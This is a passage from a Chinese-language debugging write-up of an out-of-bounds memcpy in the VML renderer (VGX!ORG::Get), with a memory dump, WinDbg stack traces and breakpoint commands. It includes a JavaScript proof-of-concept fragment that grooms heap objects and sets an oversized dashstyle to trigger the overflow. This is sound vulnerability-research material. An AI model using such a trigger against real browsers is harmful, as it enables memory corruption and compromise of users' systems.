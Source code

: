 	21dc4fa0 00000015 00000016 00000017 00000018

	21dc4fb0 00000019 0000001a 0000001b 0000001c

	21dc4fc0 0000001d 0000001e 0000001f 00000020

	21dc4fd0 00000021 00000022 00000023 00000024

	21dc4fe0 00000025 00000026 00000027 00000028

	21dc4ff0 00000029 0000002a 0000002b 0000002c

	21dc5000 ???????? ???????? ???????? ????????

	21dc5010 ???????? ???????? ???????? ????????

	21dc5020 ???????? ???????? ???????? ????????

	for (var i=0; i<0x400; i++){

	a[i].rotation; //create a COARuntimeStyle

	if (i == 0x300) { //allocate an ORG array of size B0h

		vml1.dashstyle = "1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24
		25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44"

		}

	}

再来看看栈回溯，从函数栈可以看出是memcpy复制的时候越界了。调用memcpy的函数则是VGX!ORG::Get

	0:013> kb

	Args to Child

	089a9978 7380cfa9 089a99b4 21fc3060 00000004 msvcrt!memcpy+0x158

	089a998c 7385da0f 22a56fe8 089a99b4 00000044 VGX!ORG::Get+0x27

	089a99b8 75f03e75 22a56fe8 00000044 089a9a1c
	VGX!COALineDashStyleArray::get_item+0x8c

	WARNING: Stack unwind information not available. Following frames may be wrong.

	089a99d8 75f03cef 22c5eff0 00000024 00000004 OLEAUT32!DispCallFunc+0xa6

	089a9a68 738447c1 0d5b7454 22c5eff0 00000000 OLEAUT32!LoadRegTypeLib+0xac1

	089a9bf4 73864a88 22c5eff4 22c5eff0 7388223c VGX!COADispatch::Invoke+0x89

	089a9c28 731adc18 22c5eff0 00000000 731a0bb4 VGX!COADispatchImpl<IVgDashStyleArray,&IID_IVgDashStyleArray,COAShapeProg>::Invoke+0x2f

	089a9c68 731adb6c 0a643d10 00000000 00000409 JSCRIPT!IDispatchInvoke2+0xf0

重新载入，把断点下在VGX!ORG::Get看看，整个函数也不长，整体看下，就是对下面memcpy的几个数参进行计算，其他也没有什么问题。来看看它的几个参数是怎么来的


	VGX!COALineDashStyleArray::get_item。

	00000000`77980530 cc int 3

	0:015> bp VGX!ORG::Get
